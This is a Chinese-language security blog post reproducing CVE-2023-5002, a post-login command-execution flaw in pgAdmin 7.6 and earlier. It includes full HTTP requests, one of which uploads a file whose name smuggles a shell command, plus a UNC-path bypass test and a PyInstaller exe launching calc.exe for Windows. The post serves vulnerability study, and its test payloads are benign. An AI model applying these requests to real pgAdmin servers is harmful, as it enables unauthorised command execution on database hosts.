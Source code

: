 #  CVE-2023-5002 pgAdmin <= 7.6 后台命令执行漏洞   
原创 标准云  蚁景网安   2024-06-21 17:30  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/TL4Y9UAcgruibhUn2nvLrs9mLNiaB1EywEk5fekyWAgJHrFof41PrHYJk9f0jbpDxWZHe4bl66MTEcIkd6nIxvZA/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBuqQIiaNnofKwn3K3CBgiaZJ4sW4sU1NslwEISj4s5NgRmKiatNLI7rBwg/640?wx_fmt=other&from=appmsg "null")  
  
  
我们可以看到针对于漏洞 CVE-2022-4223，官方做了一定的修复措施  
  
web\pgadmin\misc_  
init_.py#validate_binary_path  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBsVmaxgzzuk6St10tbTvWib9elmymezZBEQ7b8wzLo7hbAQLkK3yltJQ/640?wx_fmt=other&from=appmsg "null")  
  
  
首先是添加了 @login_required 进行权限校验。在 Flask 框架中，@login_required 装饰器通常与 Flask-Login 扩展一起使用。Flask-Login 提供了简单而强大的用户身份验证功能，其中包括 @login_required 装饰器用于保护需要登录用户才能访问的视图。当在一个函数、方法或类上应用 @login_required 装饰器时，它会检查当前用户是否已经登录。如果用户未登录，则会将其重定向到登录页面或返回相应的错误信息，而不允许访问被装饰的代码块。  
  
添加了权限校验之后，这个漏洞就从未授权的前台漏洞，转换为需要登录的后台漏洞了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBRPBSsj5plpryFaDKtXibuJSGTq2RRbHDlVC7bESC0OSpiaiaiapYDcVicXQ/640?wx_fmt=other&from=appmsg "null")  
  
  
同时对传入的路径进行校验，通过 os.path.exists 来判断是否存在  
### linux  
  
我们发现会对传入的路径进行校验的，那么在linux 下，我们可以通过在服务器上上传一个包含恶意文件名的文件，来进行绕过  
  
可以从 docker hub 上搜索 docker 资源 https://hub.docker.com/search?q=pgadmin  
```
docker pull dpage/pgadmin4:7.6
docker run -e 'PGADMIN_DEFAULT_EMAIL=test@example.com' -e 'PGADMIN_DEFAULT_PASSWORD=123456'  -p 5050:80 --name pgadmin -d  docker.io/dpage/pgadmin4:7.6
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBKk4nq8pXPwNoR5JMcNlMZezoeyvaEekErHouT2TkepNCxrtiayr7PMQ/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMB6GnOhkk0TsX86UWGpzvAMHFichWhdLlDZg3cd5IxVo7oLLrY3iaoSOQA/640?wx_fmt=other&from=appmsg "null")  
  
  
登录后台工具->存储管理器  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBeWNWYKiazSXMGibZkfPeUGyibEicod3Ie6lzHjbzfh6gia3QibibljRWGJXXw/640?wx_fmt=other&from=appmsg "null")  
  
  
上传一个包含恶意文件名的文件  
  
‍  
```
POST /file_manager/filemanager/3395111/ HTTP/1.1
Host: 127.0.0.1:5050
Content-Length: 491
X-pgA-CSRFToken: ImE3NDYzOGJhOWYxNDIzY2QzZDUwNTI3MWMzOGU4NGNhMmNhNzkzYTQi.Zi8ctA._DuZsbw2SE05kwuVkqgG7Y-KsjE
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryihDQGI2B09k9alLf
Origin: http://127.0.0.1:5050
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:5050/browser/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pga4_session=2397843f-fbe6-4481-947e-e30f73c6a0ee!GPxXiZuTJzjVn+sk6vhlLNAmjhQr6xIY0yumFSIGBAQ=; PGADMIN_LANGUAGE=zh
Connection: close

------WebKitFormBoundaryihDQGI2B09k9alLf
Content-Disposition: form-data; name="newfile"; filename="\";id;#"
Content-Type: text/plain

123
------WebKitFormBoundaryihDQGI2B09k9alLf
Content-Disposition: form-data; name="mode"

add
------WebKitFormBoundaryihDQGI2B09k9alLf
Content-Disposition: form-data; name="currentpath"

/
------WebKitFormBoundaryihDQGI2B09k9alLf
Content-Disposition: form-data; name="storage_folder"

my_storage
------WebKitFormBoundaryihDQGI2B09k9alLf--

```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBLfeulytcCuyJt1IXhaNahclThqGg8PQXcoicaK0XEjMYacK16EQgkyw/640?wx_fmt=other&from=appmsg "null")  
  
  
同时可以得到在文件在服务器上的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBKuJB3cyypB7s1oDNB9oVEtia5iaESBuTg8ao2AMPHLbPxUKPpnuV7mQw/640?wx_fmt=other&from=appmsg "null")  
  
  
打开文件->配置  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBTGpc4ISFnZLNHQzYcbY27hlQoDmdLQ1EDs7Frk3vficSq1gsQmfSiavA/640?wx_fmt=other&from=appmsg "null")  
  
  
路径->二进制路径->填入恶意文件的位置  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBhTo4jyIaCQG5pRNTOh1KcFE3IVWxU5DNQ82cFMJkRsQm0hutSYT9yQ/640?wx_fmt=other&from=appmsg "null")  
  
  
点击运行  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBnM3txM8NDHJdJatKfROicMNSQ5EcYx5JR4lmrkEhGicBnEgDajiaSJ0tg/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBqkD2ozocPC54xuh0qpk0yQbyuaa9uIzhV4RpqNvLgSTGfJq4dEaDPg/640?wx_fmt=other&from=appmsg "null")  
  
### windows  
  
下载软件并进行安装 https://ftp.postgresql.org/pub/pgadmin/pgadmin4/v6.21/windows/pgadmin4-6.21-x64.exe  
  
需要把C:\Users\username\AppData\Local\Programs\pgAdmin 4\v5\web 下的config.py 修改 DEFAULT_SERVER = '0.0.0.0'  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBnl0jxgnLBhJvv61SSCa1uwXTPKqpewHthYmcgMnp6TArOnPPIhOk4A/640?wx_fmt=other&from=appmsg "null")  
  
  
因为windows 无法利用拼接来执行命令，所以还是要想办法成功加载文件才行  
  
‍  
```
import os
binary_path = "\\\\192.168.222.128\\TMP\\"
UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']
for utility in UTILITIES_ARRAY:
    full_path = os.path.abspath(
        os.path.join(binary_path, (utility if os.name != 'nt' else (utility + '.exe')))
    )
    print(full_path)
    print(os.path.exists(full_path))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBdddnvP1fR3lP0micITzUGCj8vsP6Mfe0cJS8X7F7qh6XLxMJPCwgSibg/640?wx_fmt=other&from=appmsg "null")  
  
  
windows 不能再利用共享资源来实现，所以也构造一个exe 上传并执行  
  
编译恶意的exe文件并放到上传  
- • pip install pyinstaller  
  
- • type execute_calc.pyimport subprocessdef execute_calc():    subprocess.call("calc.exe")if __name__ == "__main__":    execute_calc()  
  
- • pyinstaller --onefile execute_calc.py  
  
和linux启动有所不同  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBwQGvIJoL6S4GHdtaiahLGawTtI2fPCZw7xic2N2Q1HH6zjKiaMSVUySNA/640?wx_fmt=other&from=appmsg "null")  
  
Tools->import  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBLTkmCdyExIJ2jAKl3HZLdoLsQ9keM91s2vib3QMRu62M3YZDybxYFqQ/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBsnQVvSdMegg1LFkxgmSEPfBrLt7SPF2XouMaJCwt28lNo7Jcxicxibtg/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBIypJFMnZIEuKtutHdFbCtFdl77ObwgU7Gj9goA7atDZZH5E2ian8fkA/640?wx_fmt=other&from=appmsg "null")  
  
  
成功将恶意文件上传到服务器上  
  
同时构造请求数据包  
```
POST /misc/validate_binary_path HTTP/1.1
Host: 192.168.222.145:5050
X-pgA-CSRFToken: IjU4MzQ0OTM2Yzc3YzM5ZmE5Yjg0MjRhODVlNzkzZjM5MTViZDBmNzki.Zi9GcQ.pGwCjLqPq3fNzohIRNerpipIRK8
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://192.168.222.145:5050
Referer: http://192.168.222.145:5050/browser/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pga4_session=e6f521fc-e9f4-4c58-bf0a-e9abafb4ceb5!JG7fBzRT4FkugKb175t9vWdZpKmAtnbo0d/oPzcAbFI=; PGADMIN_LANGUAGE=en
Connection: close
Content-Type: application/json
Content-Length: 39

{"utility_path":"C:\\Users\\whippet\\"}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBQRABguPC5pdbBsyM5nIbibxTCCz5ZHia1L6yMUFLeB5GQZ9m1lUBMgtQ/640?wx_fmt=other&from=appmsg "null")  
  
  
可能是因为本地测试的原因，后来尝试的时候发现，本地去调用共享文件时，可以接收到请求，但是很快就断开连接，所以最后的结果是 False  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBBpnQnoCuSaEd8ZibaZzDSRHk2K8QAtYEHcNqaHD0O4o1yTCt9rBbibwA/640?wx_fmt=other&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruWxR2YXibm6DBcQdwv89qMBZ6tYtSxmDc72LmmZQjc7T7onnYsdMrTS0YhHFYaWXBG3F0Iicl1CxNg/640?wx_fmt=other&from=appmsg "null")  
  
  
所以环境为windwos 时可以利用共享资源来绕过 os.path.exists(）的检测  
  
[](http://mp.weixin.qq.com/s?__biz=MzkyNTY3Nzc3Mg==&mid=2247484713&idx=1&sn=28c29e069e8bd8ceb0bb9b8724563a15&chksm=c1c3a48af6b42d9c05802480e731f8054250576e425306e620b110db89c7b6ea9451be2b4976&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruibhUn2nvLrs9mLNiaB1EywEeVJJJ3lvticFQQIqlOgoLUbB7FDAZGsoICZWUK2CnX8VV5mHBogoNqQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
